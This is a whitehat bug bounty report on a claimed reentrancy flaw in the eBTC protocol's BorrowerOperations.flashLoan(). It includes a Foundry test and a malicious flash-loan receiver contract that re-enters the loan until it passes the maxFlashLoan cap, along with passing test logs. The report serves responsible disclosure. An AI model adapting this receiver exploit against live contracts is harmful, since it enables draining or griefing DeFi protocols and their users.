# Reentrancy in BorrowerOperations.flashLoan(), enabling an attacker to borrow unlimited eBTC exceeding the maxFlashLoan limit

Submitted about 1 month ago by @OxG0P1 (Whitehat) for Boost | eBTC

Report ID: #28659

Report type: Smart Contract

Has PoC? Yes

Target: https://github.com/ebtc-protocol/ebtc/blob/release-0.7/packages/contracts/contracts/BorrowerOperations.sol

# Impacts
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

# Details

Due to an reentrancy attack vector, an attacker can flashLoan an unlimited amount of eBTC. For example the attacker can create a malicious contract as the receiver, to execute the attack via the onFlashLoan callback .

The exploit works because BorrowerOperations.flashLoan() is missing a reentrancy protection (modifier).

As a result an unlimited amount of eBTC can be borrowed by an attacker via the flashLoan .

# Vulnerability Details
The BorrowerOperations.sol contract facilitates the execution of flash loans for eBTC. A user is permitted to loan a maximum amount of type(uint112).max. However, a vulnerability exists wherein an attacker can exploit the absence of the Reentrancy modifier in the BorrowerOperations.flashLoan() function. This oversight enables an attacker to potentially mint an infinite amount of eBTC tokens. By leveraging a malicious receiver implementation contract, the attacker can execute this exploit, posing a significant risk to the integrity and security of the eBTC ecosystem.

# Impact Details
An attacker can bypass the maxFlashloan amount and mint infinite amount of eBTC tokens.

# References
https://github.com/ebtc-protocol/ebtc/blob/a96bd000c23425f04c3223a441a625bfb21f6686/packages/contracts/contracts/BorrowerOperations.sol#L1091-L1122

# Proof of concept

`Test :`

```
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.17;

import "forge-std/Test.sol";
import {eBTCBaseFixture} from "./BaseFixture.sol";
import {UselessFlashReceiver, eBTCFlashReceiver, FlashLoanSpecReceiver, FlashLoanWrongReturn} from "./utils/Flashloans.sol";

/*
 * Unit Tests for Flashloans
 * Basic Considerations:
 * Flash Fee can go to zero due to rounding, that's marginal
 * Minting is capped at u112 for UniV2 Compatibility, but mostly arbitrary
 */
contract FlashLoanUnitEBTC is eBTCBaseFixture {
    // Flashloans
    UselessFlashReceiver internal uselessReceiver;
    eBTCFlashReceiver internal ebtcReceiver;
    FlashLoanSpecReceiver internal specReceiver;
    FlashLoanWrongReturn internal wrongReturnReceiver;

    function setUp() public override {
        // Base setup
        eBTCBaseFixture.setUp();

        eBTCBaseFixture.connectCoreContracts();
        eBTCBaseFixture.connectLQTYContractsToCore();

        // Create a CDP
        address payable[] memory users;
        users = _utils.createUsers(1);
        address user = users[0];
        uint256 borrowedAmount = _utils.calculateBorrowAmount(
            30 ether,
            priceFeedMock.fetchPrice(),
            COLLATERAL_RATIO
        );
        // Make sure there is no CDPs in the system yet
        assert(sortedCdps.getLast() == "");
        vm.startPrank(user);
        collateral.approve(address(borrowerOperations), type(uint256).max);
        collateral.deposit{value: 30 ether}();
        borrowerOperations.openCdp(borrowedAmount, "hint", "hint", 30 ether);
        vm.stopPrank();

        uselessReceiver = new UselessFlashReceiver();
        ebtcReceiver = new eBTCFlashReceiver();
        specReceiver = new FlashLoanSpecReceiver();
        wrongReturnReceiver = new FlashLoanWrongReturn();
    }



    function testReenter() public{
        uint256 loanAmount = borrowerOperations.maxFlashLoan(address(eBTCToken));
        uint256 fee = borrowerOperations.flashFee(address(eBTCToken), loanAmount);
        deal(address(eBTCToken), address(ebtcReceiver), fee * 3); //Receiver implemntation should have eBTC to pay fee
        borrowerOperations.flashLoan(
            ebtcReceiver,
            address(eBTCToken),
            loanAmount,
            abi.encodePacked(uint256(0))
        );

        uint result = ebtcReceiver.trace();
        console.log(result); // The amount that the attacker minted
        console.log(loanAmount); //Maximum allowed amount that an user can mint

    }
}
```

`Receiver Implementation :`

```
interface IborrowerOperations{
    function flashLoan( 
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external  returns (bool);
}




contract eBTCFlashReceiver is IERC3156FlashBorrower {
    uint  goal =  5192296858534827628530496329220095 * 2; // Goal amount of the attacker which is type(uint112 ).max * 2
    uint public trace; 
    function onFlashLoan(
        address initiator,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external override returns (bytes32) {

        uint256 loanAmount = amount;
        trace += amount;
        if(trace < goal){ // Attacker keep calling the flashLoan until goal reached
            
            IborrowerOperations(msg.sender).flashLoan(
                IERC3156FlashBorrower(address(this)),
                address(token),
                loanAmount,
                abi.encodePacked(uint256(0))
        );
        }
        // Approve amount and fee
        IERC20(token).approve(msg.sender, amount + fee);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }
}
```

`Test Results :`

```
[PASS] testReenter() (gas: 275631)
Logs:
  10384593717069655257060992658440190
  5192296858534827628530496329220095
```
